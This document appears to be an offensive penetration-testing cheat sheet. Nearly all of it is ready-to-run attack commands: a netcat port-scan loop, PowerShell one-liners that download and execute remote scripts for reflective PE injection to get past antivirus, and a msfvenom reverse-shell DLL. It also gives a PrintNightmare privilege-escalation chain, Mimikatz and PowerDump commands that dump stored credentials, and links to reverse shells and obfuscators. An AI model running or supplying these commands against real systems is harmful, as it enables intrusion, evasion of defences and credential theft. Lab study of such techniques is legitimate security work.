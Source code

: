 Reverse tcp port scan in bash on Linux:

```
export ip=<IP>; for port in $(seq 20 6000); do nc -zv -w1 $ip $port& done
```

### 2. Damn AV, how to bypass it to run my exe?

Use Powershell PE Reflective injection:

```
# Use reflective PE injection over SMB:
powershell -ep bypass -sta -nop -c "iex (iwr http://IP/empire.ps1 -UseBasicParsing); $PEBytes = [IO.File]::ReadAllBytes('\\IP\\Share\\File'); Invoke-ReflectivePEInjection -PEBytes $PEBytes"
# Over HTTP:
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-ReflectivePEInjection.ps1.1 -UseBasicParsing);Invoke-ReflectivePEInjection -PEURL http://IP/file.exe"
```

Although, in reality it’s the powershell script that would most likely get blocked by the AV.

[Script with PEBytes version](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)

[Script with PEUrl version](https://github.com/EmpireProject/Empire/blob/master/data/module_source/code_execution/Invoke-ReflectivePEInjection.ps1) Here is a few list of golang reverse shells:

https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

I use [garble](https://github.com/burrowers/garble) for obfuscation, but bear in mind that **most obfuscation techniques will actually increase the suspiciousness** of scripts and binaries.

### 3. No meterpreter getystem and got SeLoadDriverPrivilege?

Then try Print Nightmare, I’ve had a lot of success with it in the lab:

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o revshell.dll
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1
python -m http.server 80
```

```
powershell -ep bypass -nop -c "iwr http://IP/revshell.dll -OutFile C:\WINDOWS\Temp\revshell.dll;iex (iwr http://IP/Invoke-Nightmare.ps1 -UseBasicParsing);Invoke-Nightmare -DLL C:\WINDOWS\Temp\revshell.dll"
```

[Script](https://github.com/calebstewart/CVE-2021-1675)

### 4. Want to dump creds?

```
powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-PowerDump.ps1 -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr http://IP/Invoke-Mimikatz.ps1 -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```
